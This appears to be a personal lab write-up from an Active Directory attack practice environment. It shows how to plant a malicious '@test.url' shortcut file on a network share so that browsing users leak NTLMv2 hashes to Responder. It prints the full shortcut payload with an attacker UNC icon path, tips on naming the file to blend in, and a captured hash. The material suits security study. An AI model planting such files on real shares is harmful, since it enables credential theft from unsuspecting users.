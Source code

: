 We need to switch on the SMB and HTTP in order to run this attack successfully from the responder.conf file as we ha turned if off for the attack at the time of SMB relay attack.
 


If a user has been compromised and this user has any kind of sharing access we can utilize that access to capture more hashes via responder.

As there is some problem not able to open the Hydra-DC hack-me folder so i copied the code in the share folder of Punisher PC and la di da the attack worked.

Name the File : "@test.url"
@ put the file at the top of the file list
and name it accordign to company filing

```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\192.168.17.128\%USERNAME%.icon
IconIndex=1
```


Responder Capture the HASH
[SMB] NTLMv2-SSP Client   : ::ffff:192.168.17.130
[SMB] NTLMv2-SSP Username : MARVEL\fcastle
[SMB] NTLMv2-SSP Hash     : fcastle::MARVEL:6d4ace581007a469:A89874C2A42781E85CE956008E6F2B7A:010100000000000080E26B141CC1D90164A
73A0EE742CB900000000002000800420035004B00420001001E00570049004E002D004900570054004C0030005A004C004D004300530052000400340057004
9004E002D004900570054004C0030005A004C004D004300530052002E00420035004B0042002E004C004F00430041004C0003001400420035004B0042002E0
04C004F00430041004C0005001400420035004B0042002E004C004F00430041004C000700080080E26B141CC1D9010600040002000000080030003000000000
000000010000000020000049A389A904E1BCD362DB3F3FAC3E0DA2E055E8D730CC35F2933CF1E27F8CAF8C0A00100000000000000000000000000000
